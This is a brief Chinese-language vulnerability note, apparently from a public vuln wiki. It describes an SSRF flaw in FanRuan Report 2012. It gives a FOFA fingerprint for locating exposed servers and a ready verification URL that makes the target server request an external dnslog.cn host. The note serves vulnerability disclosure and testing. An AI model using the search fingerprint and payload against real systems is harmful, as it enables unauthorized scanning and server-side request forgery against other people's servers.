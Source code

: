 # 帆软报表 2012 SSRF漏洞

## 漏洞描述

帆软报表 2012 存在信息泄露漏洞，通过访问特定的Url获取造成SSRF

## 漏洞影响

> [!NOTE]
>
> 帆软报表 2012

## FOFA

> [!NOTE]
>
> body="down.download?FM_SYS_ID"

## 漏洞复现

漏洞验证Url为

```
/ReportServer?op=resource&resource=0m0m6k.dnslog.cn
```

![](http://wikioss.peiqi.tech/vuln/fan-10.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)